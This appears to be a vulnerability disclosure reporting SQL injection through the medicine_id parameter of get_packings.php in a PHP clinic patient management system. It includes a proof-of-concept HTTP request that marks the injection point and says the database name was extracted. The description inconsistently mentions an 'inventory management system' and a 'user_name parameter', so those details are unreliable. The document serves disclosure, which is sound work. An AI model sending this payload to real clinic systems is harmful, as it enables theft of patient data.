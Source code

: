 ## Clinic's Patient Management System has SQL injection vulnerability

## supplier
https://www.sourcecodester.com/php-clinics-patient-management-system-source-code
## Vulnerability file
/pms/ajax/get_packings.php
## describe
An unrestricted SQL injection attack exists in an inventory management system. The parameters that can be controlled are as follows: medicine_id. This function executes the user_name parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.
## code analysis
The medicine_id parameter in get_packings.php is controlled and is directly carried into the SQL statement for execution, resulting in SQL injection.

<img width="1065" alt="image" src="https://github.com/user-attachments/assets/aed61558-3268-4d9c-b59b-87d88468f84b">


Injection via parameter medicine_id
POC
```
GET /pms/ajax/get_packings.php?medicine_id=1* HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```

Get the database name: pms_db

<img width="967" alt="image" src="https://github.com/user-attachments/assets/91ae1e19-00b1-472c-a8a1-806d34aaca08">
<img width="955" alt="image" src="https://github.com/user-attachments/assets/df31683c-c5ed-4786-bf20-acfdd273dd47">










